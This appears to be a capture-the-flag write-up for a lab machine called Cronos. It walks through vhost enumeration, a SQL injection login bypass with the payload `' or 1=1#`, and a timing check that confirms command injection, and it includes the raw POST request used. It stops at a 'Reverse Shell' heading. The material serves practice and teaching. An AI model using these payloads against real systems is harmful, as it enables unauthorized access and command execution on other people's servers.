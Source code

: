 - Adding cronos.htb and admin.cronos.htb to /etc/hosts

## VHOSTS

###  First Vhost - http://cronos.htb

- Visit the webpage
- ![[Pasted image 20210329054600.png]]
- All the links lead to Laravel Docs - So must be PHP based.
- robots.txt is present, but it doesn't disallow anything, so no help there.
- View source doesn't help too

### Second Vhost - http://admin.cronos.htb
- A login page.
![[Pasted image 20210329054958.png]]
- Send a login request to burp.
- Burp Request:
![[Pasted image 20210329055140.png]]
- PHP SESSID is present.
- Trying SQLi : `' or 1=1#` as username and password. We get access to welcome.php
![[Pasted image 20210329055718.png]]
- Capturing the request.
![[Pasted image 20210329055833.png]]
- We can check that the standard request takes around 198 milliseconds.
![[Pasted image 20210329060025.png]]
- We can check code execution by adding command sleep and host (actually arg to sleep) as 5. It takes 5 seconds . Thus code execution is possible. Command can directly run the code.
![[Pasted image 20210329060217.png]]

# Foothold
## Reverse Shell

### The POST request
```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=bfaodntocohp2c7vqn8731k3s4
Upgrade-Insecure-Requests: 1
command=sleep+5&host=
```
